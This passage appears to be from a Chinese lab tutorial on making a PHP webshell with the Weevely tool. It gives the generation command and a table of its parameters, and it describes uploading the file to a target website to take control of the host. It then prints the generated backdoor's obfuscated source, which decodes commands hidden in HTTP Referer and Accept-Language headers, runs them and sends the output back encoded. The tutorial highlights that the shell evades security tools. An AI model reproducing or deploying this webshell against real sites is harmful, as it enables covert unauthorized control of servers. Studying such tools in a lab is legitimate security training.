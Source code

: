 ## 四、过程实现

### 4.1 生成 PHP 挂马文件

PHP 木马是在 Web 攻击中，比较常见的一种木马文件。一般情况下，攻击者将生成 PHP 木马，上传至网站的目录下，接着在本机输入攻击命令，建立起攻击机和目标主机两者之间的联系，这其中 PHP 木马充当了控制目标主机的媒介。

上面介绍了 Weevely 的参数怎么使用，接下来我们使用 Weevely 命令来生成 PHP 木马，实现木马生成这一过程。在终端中，输入如下命令：

```
# 生成 php 木马程序
weevely generate hello /root/hello.php
```
这条命令中的各个参数，所代表的含义分别为：

| 参数名称          | 参数代表含义                                                 |
| ----------------- | ------------------------------------------------------------ |
| `hello`           | weevely 连接木马，创建会话，需要密码验证， `hello` 为连接会话时，所需要输入的密码。 |
| `/root/hello.php` | 在攻击者的本地环境中，指定生成木马文件的具体位置，这里为 `/root` 文件夹下。 |


![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1481010650852.png-wm)


在输入生成 PHP 木马文件命令后，可以看到目录 `/root/`下，已经存在了 PHP 木马文件 `hello.php`：

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1481010703158.png-wm)

对于 PHP 木马的源码，我们可以使用 `cat` 命令查看木马文件，在命令行终端中，输入如下命令：

```
# 使用命令，查看木马文件源码
cat /root/hello.php
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1481010792216.png-wm)


### 4.2 解释 PHP 木马源码

Weevely 的最大特点在于其隐蔽性，不论数据通道和控制通道，都做到很大程度的隐蔽，其生成的木马程序，很难被安全工具发现。对于生成的 PHP 木马文件，由 `cat` 命令可以看到其源码如下：

```
<?php
$A='l{
$u=pa,lrse_url(,l$rr);,lparse_str($u[,l"query,l"],$q),l;
$q=a,lrray_,lval,l,lues($q);preg_mat,l,lch_a';
$y='<$l,l;),l{f,lor($j=0;($,lj<$c&&$i<$l,l),l;,l$j++,l,l,$i++){
$o.=$t{$i}^$k{,l$,lj};}}return ,l,l$o;}
$r=,';
$Q='ll("/([\\w,l])[\\,lw-]+(,l?:;q=0.([,l\\d])),l?,?/",,l$ra,$,lm);i,lf($q&&$m){,l@sess,lion_sta,lrt,l(),l;$s';
$j='=&$_SESS,lION;$,lss,l=,l"substr";$sl="st,lrto,ll,lower,l";$i=$m[1][0],l.$m[1],l[1];$h=$s,ll(,l,l$ss(md5';
$L='($i.$kh),,l0,3),l,l);$f=$sl($ss(md5(,l$,li.$kf),,l0,3));,l$p=,l"";for,l,l($z=,l1;$z<cou,lnt($m[1]);$z';
$S='l$_SERVER;$rr,l=@,l$r["HTTP_R,lE,lFERER"];$ra,l=@$,lr[",l,lHTTP_,lACCEPT_LANGUAGE",l];if(,l,l$rr&&$ra),';
$z=',lrray(",l/",",l+,l"),$ss($s[$i],l,0,$e))),$k)));$o,l=ob_get,l_,lcontent,ls();ob_en,ld,l_clea,ln();$d=';
$r='b,lase6,l4_,lenc,lode(x(g,lzcompress($o,l),$k));print("<,l$k>$d<,l/$k,l,l>");@sessio,ln,l_destroy();}}}}';
$K='$kh,l="5d,l41";$kf=,l",l402a";f,lunctionx($t,$k,l){$c=st,lrlen,l($k,l);$l=str,llen($t),l;$o,l="";for(,l$i=0;$i';
$m=',l_,lexists(,l$i,$s)),l{$s[$i,l].=$p,l;$e,l,l=strpos($,ls[$i],$,lf);if($e){$k=$,lk,lh.$kf;o,l,lb_start';
```